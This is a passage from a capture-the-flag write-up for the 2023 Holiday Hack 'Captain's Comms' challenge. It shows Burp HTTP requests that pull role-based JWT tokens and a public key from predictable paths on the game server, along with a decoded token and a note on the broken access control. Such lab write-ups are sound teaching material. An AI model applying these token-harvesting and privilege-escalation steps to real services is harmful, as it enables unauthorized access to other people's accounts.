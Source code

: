 ```
We use burp to do the request: 

```
GET /jwtDefault/rMonitor.tok HTTP/2
Host: captainscomms.com
```

```bash linenums="1" hl_lines="7" title="Just code"
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
X-Cloud-Trace-Context: c0347a7357b30cd5c20fef457d04aee4;o=1
Date: Sun, 17 Dec 2023 19:09:58 GMT
Server: Google Frontend
Cache-Control: private
Content-Length: 556
Via: 1.1 google, 1.1 google
Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvTW9uaXRvciJ9.f_z24CMLim2JDKf8KP_PsJmMg3l_V9OzEwK1E_IBE9rrIGRVBZjqGpvTqAQQSesJD82LhK2h8dCcvUcF7awiAPpgZpcfM5jdkXR7DAKzaHAV0OwTRS6x_Uuo6tqGMu4XZVjGzTvba-eMGTHXyfekvtZr8uLLhvNxoarCrDLiwZ_cKLViRojGuRIhGAQCpumw6NTyLuUYovy_iymNfe7pqsXQNL_iyoUwWxfWcfwch7eGmf2mBrdEiTB6LZJ1ar0FONfrLGX19TV25Qy8auNWQIn6jczWM9WcZbuOIfOvlvKhyVWbPdAK3zB7OOm-DbWm1aFNYKr6JIRDLobPfiqhKg

Headers = {
  "alg": "RS256",
  "typ": "JWT"
}

Payload = {
  "iss": "HHC 2023 Captain's Comms",
  "iat": 1699485795.3403327,
  "exp": 1809937395.3403327,
  "aud": "Holiday Hack 2023",
  "role": "radioMonitor"
}
```

We now have the monitor's signature. 

```GET /jwtDefault/rDecoder.tok HTTP/2```

So we have decoder's signature. This is a security risk, the user monitor should not have permission 
to access user docoder's token. 

Look at the journal below: 

![hints](../img/objectives/o18/cappubc.png)

```GET /jwtDefault/keys/capsPubKey.key HTTP/2 Host: captainscomms.com```

So we have captain's public key. ChatNPT is not very good at giving you a secure location if it gives everyone a similar answer.

We need to log into the receiver as radioDecoder: 



```bash linenums="1" hl_lines="7" title="Just code"

GET /checkRole HTTP/2
Host: captainscomms.com
```